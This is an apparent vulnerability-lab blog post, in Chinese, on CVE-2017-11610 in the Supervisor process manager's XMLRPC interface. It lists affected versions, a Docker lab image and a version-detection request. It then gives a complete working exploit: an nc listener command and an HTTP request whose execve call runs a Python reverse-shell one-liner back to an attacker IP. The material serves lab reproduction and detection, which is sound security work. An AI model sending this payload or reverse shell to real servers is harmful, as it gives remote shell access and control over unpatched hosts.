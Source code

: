 ```yaml
---
layout: post
title: "Supervisor Remote Code Execution(CVE-2017-11610)"
date: 2017-07-28 00:41:04 +0800
image: '/assets/img/'
description: '远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码'
main-class: 'hole'
color: '#B31917'
tags:
- Supervisor
- RCE
categories:
- Supervisor
twitter_text: 'Supervisor Remote Code Execution(CVE-2017-11610)环境'
introduction: 'Supervisor Remote Code Execution(CVE-2017-11610)环境'
---
```


### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

详细信息参考：[[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)

### 影响版本

大于 3.0

#### 已经确认：

* Supervisor 3.1.2 
* Supervisor 3.3.2

#### 已修复此漏洞版本

* Supervisor 3.3.3
* Supervisor 3.2.4
* Superivsor 3.1.4
* Supervisor 3.0.1

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://127.0.0.1/9001/RPC2 | vulapps | vulapps

> 本环境默认无认证，如需开启，请修改 `/etc/supervisor.conf` 文件

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境
 ```
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### PoC

[查看巡风检测脚本](https://github.com/ysrc/xunfeng/pull/117/)

无损化检测时可发送该报文，检测返回版本号：

{% highlight http %}
POST /RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 110
Host: 127.0.0.1:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.getSupervisorVersion</methodName>
</methodCall>
{% endhighlight %}

返回内容如下：

{% highlight http %}
HTTP/1.1 200 OK
Date: Fri, 28 Jul 2017 05:08:47 GMT
Content-Length: 131
Content-Type: text/xml
Server: Medusa/1.12

<?xml version='1.0'?>
<methodResponse>
<params>
<param>
<value><string>3.3.2</string></value>
</param>
</params>
</methodResponse>
{% endhighlight %}

如果提示 401 未认证错误，可在请求头中添加 HTTP基础认证

#### Exp

**注意：**该 Exp 使用的`execve`, 如果存在漏洞，会将 `supervisord` 进程替换成指定的程序(本 Exp 中将会替换成 `/usr/bin/python`)，换言之，会导致`supervisord`进程退出，**生产环境中请慎用**

反弹 Shell 演示：

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听
 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可
{% highlight http %}
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
{% endhighlight %}

---

![](https://github.com/Medicean/VulApps/raw/master/s/supervisor/1/exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)
